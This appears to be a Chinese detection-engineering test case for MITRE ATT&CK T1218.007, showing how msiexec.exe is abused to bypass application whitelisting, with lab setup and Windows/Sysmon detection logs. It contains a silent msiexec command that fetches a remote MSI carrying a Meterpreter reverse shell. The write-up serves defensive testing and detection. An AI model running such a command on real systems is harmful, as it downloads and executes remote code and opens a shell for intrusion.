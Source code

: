 # T1218.007-Win-使用Msiexec.exe执行Payload（白名单）

## 描述

攻击者可能利用**msiexec.exe**代理执行恶意代码，规避安全工具的检测（MITRE ATT&CK T1218.007）。`msiexec.exe`是Windows Installer的组成部分，用于安装MSI（Microsoft Installer）包，由微软数字签名，常被白名单或误报。攻击者可通过`msiexec.exe`加载本地或远程恶意MSI文件，触发恶意Payload，如Meterpreter反向Shell。此技术利用`msiexec.exe`的合法性和白名单特性，结合其支持从远程URL加载MSI的能力，增加隐蔽性，适用于防御规避和初始访问。

本案例聚焦于使用`msiexec.exe`加载远程MSI文件（如`http://<IP>/1.msi`），执行Meterpreter反向Shell，模拟攻击者绕过应用程序白名单的场景。

## 测试案例

### 测试1：使用Msiexec.exe执行远程MSI Payload

攻击者通过`msiexec.exe`加载远程MSI文件，触发反向Shell。

**环境要求**：
- 攻击机：Kali Linux（或其他Metasploit支持的系统）
- 靶机：Windows 7（支持Windows 2003及以上）
- 工具：Metasploit（生成Payload）、`msiexec.exe`（系统自带）
- 权限：普通用户
- 路径：
  - `C:\Windows\System32\msiexec.exe`
  - `C:\Windows\SysWOW64\msiexec.exe`

**攻击命令**（靶机）：
```cmd
msiexec.exe /q /i http://192.168.126.146/1.msi
```

**说明**：
- `/q`：静默模式，抑制用户界面。
- `/i`：安装模式，指定MSI文件路径（支持HTTP URL）。
- `http://192.168.126.146/1.msi`：远程MSI文件，包含Meterpreter Payload。
- 执行触发反向Shell。

**清理命令**：
```cmd
taskkill /IM msiexec.exe /F
```

## 检测日志

- **Windows安全日志**：
  - Event ID 4688：进程创建，记录`msiexec.exe`的执行（需启用进程跟踪审核）。
  - Event ID 5156：Windows过滤平台（WFP）连接，记录`msiexec.exe`的HTTP连接和反向Shell的网络连接（如TCP 1234）。
- **Sysmon日志**：
  - Event ID 1：进程创建，捕获`msiexec.exe`的命令行及父进程信息。
  - Event ID 3：网络连接，记录`msiexec.exe`的HTTP请求和C2连接。
  - Event ID 7：镜像加载，记录加载的DLL或模块（若MSI触发额外加载）。

**日志配置**：
- 启用命令行审计：`本地计算机策略 > 计算机配置 > 管理模板 > 系统 > 审核进程创建 > 在进程创建事件中加入命令行 > 启用`。
- 部署Sysmon，配置捕获进程创建、网络连接和镜像加载事件。
